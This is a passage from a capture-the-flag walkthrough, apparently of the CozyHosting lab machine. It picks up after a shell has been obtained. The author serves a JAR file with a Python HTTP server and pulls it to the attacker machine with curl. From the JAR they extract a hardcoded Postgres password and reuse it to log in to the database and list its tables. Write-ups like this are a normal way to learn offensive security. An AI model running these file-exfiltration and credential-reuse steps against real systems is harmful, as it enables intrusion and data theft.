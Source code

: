 If you want, stabilize the shell. 
And we are in, but without any possibility to do anything...

Analyzing what's inside the folder we get a single file named _cloudhosting-0.0.1.jar_.
Since this file has been left here for a reason, and since we cannot open it, we can download it to our local machine spawning a _python http server_ on the remote machine

```bash
python3 -m http.server 9999
```

and download it locally

```bash
curl <IP>:9999/cloudhosting-0.0.1.jar > cloudhosting.jar
```

Opening the _.jar_ file and inspecting its content, it's possible to retrieve in _BOOT-INF/classes_ a file named _application.properties_ which contains info about a POSTGRES DB.

```properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```


#### User Flag

On the remote host we are able to access the DB.

```
psql -h localhost -d cozyhosting -U postgres
```

When prompted for password : _Vg&nvzAQ7XxR_

Now we need to know what are the tables in the _db_:

```
\dt
```
```
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)
```

